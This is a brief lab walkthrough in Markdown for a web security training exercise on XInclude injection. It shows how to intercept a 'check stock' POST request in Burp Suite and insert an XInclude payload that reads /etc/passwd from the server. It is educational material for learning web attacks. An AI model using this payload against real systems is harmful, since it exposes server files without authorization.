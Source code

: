 
### Exploiting XInclude to retrieve files : PRACTITIONER

---


> Viewing any item and then pressing on `check stock` while having BURPSUITE PROXY HTTP history on.

![](./screenshots/check-stock.png)

> Viewing the `POST` request sent via HTTP history.

![](./screenshots/lab8-1.png)

> To exploit via `XInclude` we add the payload to the `POST` request.
```XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![](./screenshots/lab8-2.png)

> We view the `/etc/passwd` file and the lab is complete.

---
